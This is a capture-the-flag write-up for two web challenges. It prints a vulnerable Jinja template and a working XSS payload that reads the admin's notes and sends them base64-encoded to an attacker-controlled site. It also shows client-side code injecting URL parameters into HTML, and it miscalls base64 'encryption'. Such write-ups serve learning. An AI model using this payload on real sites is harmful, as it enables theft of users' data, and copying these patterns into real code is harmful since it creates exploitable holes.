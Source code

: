 ## Baby Ducky Notes: Revenge
Now the challenge was a bit more difficult than the previous one because the flag was hidden and the only way to read it was to make the admin read it for me or by stealing the admin's cookie which was HttpOnly.<br>
After looking for a while in the source code, I found a line from the template of the posts page:<br>
```html
<ul class="posts_ul">
    {% for post in posts %}
    <li>
        <div class="blog_post">
            <div class="container_copy">
                <h1> {{post.get('title')}} </h1>
                <h3> {{post.get('username')}} </h3>
                <p> {{post.get('content') | safe}} </p>
            </div>
        </div>
    </li>
    {% endfor %} 
</ul>
```
The content was rendered without any sanitizing and because of that I could perform an XSS using this payload<br>
```js
<script>
async function attack(){
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "/posts/view/admin", true);
    xhr.responseType = "text";
    xhr.onload = () => {
        window.location.href = "{input('Enter the url of your site: ')}?html=" + btoa(xhr.responseText.toString());
    };
    await xhr.send(null);
}
attack();
</script>
```
After executing this code the admin could read its notes (including the flag) and send the whole html code encrypted in base64 to my website where I had to decrypt it to find the flag.

## Cookie Store
I really hated this challenge for a while because I couldn't run the javascript code of the page (which was quite important) because of an error of the `setHTML` javascript function which only worked when the site was running as `localhost` or with an `https` connection. I later found out a way to run docker as `localhost` (it initially used the local ip 172.17.x.x) but even if I spent a lot of time to resolve this problem, the challenge was quite interesting, in fact this site printed our 'notes' using some columns sorting method that was vulnerable.
```js
const urlParams = new URLSearchParams(window.location.search);
const fields = urlParams.get('fields');

let form_html = '';
let fields_list = [];
if (fields) {
    fields_list = fields.split(',');
    fields_list.forEach(element => {
        form_html += `<div class="mb-4">
            <label for="${element}" ... >${element}</label>
            <input type="text" name="${element}" id="${element}" ...>
        </div>`;
    });
}
```